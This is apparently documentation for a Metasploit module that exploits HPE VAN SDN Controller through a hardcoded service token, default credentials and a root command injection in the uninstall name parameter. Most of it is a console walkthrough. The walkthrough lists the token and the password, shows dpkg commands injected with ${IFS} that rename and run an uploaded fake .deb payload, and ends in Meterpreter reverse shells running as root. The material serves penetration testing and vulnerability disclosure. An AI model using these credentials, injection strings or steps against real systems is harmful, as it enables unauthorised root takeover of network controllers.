 ## Intro

This module exploits a hardcoded service token or default credentials in
HPE VAN SDN Controller <= 2.7.18.0503 to execute a payload as root.

A root command injection was discovered in the uninstall action's name
parameter, obviating the need to use sudo for privilege escalation.

If the service token option `TOKEN` is blank, `USERNAME` and `PASSWORD`
will be used for authentication. An additional login request will be
sent.

## Setup

Follow <http://h22208.www2.hpe.com/eginfolib/networking/docs/sdn/sdnc2_6/5998-8473install/content/s_download_sw.html>.

Tested on 2.7.18.0503.

## Options

**TOKEN**

Set this to the service token. Defaults to `AuroraSdnToken37`.

**USERNAME**

Set this to the service username. Defaults to `sdn`.

**PASSWORD**

Set this to the service password. Defaults to `skyline`.

## Usage

```
msf5 > use exploit/linux/http/hp_van_sdn_cmd_inject
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > set rhosts 192.168.56.102
rhosts => 192.168.56.102
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > set target Linux Dropper
target => Linux Dropper
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Authenticating with service token AuroraSdnToken37
[*] Uploading payload as fake .deb
[+] Uploaded /var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1.deb
[*] Renaming payload and executing it
[*] Injecting dpkg -r --pre-invoke=mv${IFS}/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1.deb${IFS}/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1${IFS}&&${IFS}chmod${IFS}+x${IFS}/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1
[*] Injecting dpkg -r --pre-invoke=/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1
[*] Sending stage (812100 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.102:34468) at 2018-07-03 18:23:08 -0500
[+] Deleted /var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.56.102
OS           : Debian 8 (Linux 4.4.0-2-amd64-hlinux)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
Background session 1? [y/N]
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > set token ""
token =>
msf5 exploit(linux/http/hp_van_sdn_cmd_inject) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Authenticating with creds sdn:skyline
[+] Logged in with auth token 26d7b53a73a9455eae63c346321bfe31
[*] Uploading payload as fake .deb
[+] Uploaded /var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l.deb
[*] Renaming payload and executing it
[*] Injecting dpkg -r --pre-invoke=mv${IFS}/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l.deb${IFS}/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l${IFS}&&${IFS}chmod${IFS}+x${IFS}/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l
[*] Injecting dpkg -r --pre-invoke=/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l
[*] Sending stage (812100 bytes) to 192.168.56.102
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.102:34474) at 2018-07-03 18:24:47 -0500
[+] Deleted /var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l

meterpreter >
```
